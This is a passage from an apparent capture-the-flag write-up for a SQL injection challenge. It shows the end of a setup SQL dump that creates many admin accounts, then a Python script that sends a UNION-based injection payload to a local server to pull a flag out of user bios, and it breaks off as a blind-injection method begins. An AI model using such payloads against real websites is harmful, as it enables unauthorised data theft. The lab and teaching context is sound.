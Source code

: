 ```sql
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;

-- Call the procedure to generate random users
CALL GenerateRandomUsers();

-- Drop the procedure (optional)
DROP PROCEDURE IF EXISTS GenerateRandomUsers;

```
{: file="dump.sql" }

## Analyzation

This is a [SQL injection](https://portswigger.net/web-security/sql-injection) challenge since the user inputs are not checked carefully.

## Solution

### Way 1: [UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks)

We want to see the response, so we will use GET method.

```py
import requests

payload = "' UNION SELECT 1, bio, 3 FROM users WHERE bio LIKE 'Flag%' and '1'='1"

URL = "http://localhost:8000/?user={}".format(payload)
response = requests.get(URL)

print(response.text)
```

### Way 2: [Blind SQLi](https://owasp.org/www-community/attacks/Blind_SQL_Injection)

In this way, GET method is used.

#### Find the correct admin

There are 500 admins! The right admins have to be found first.

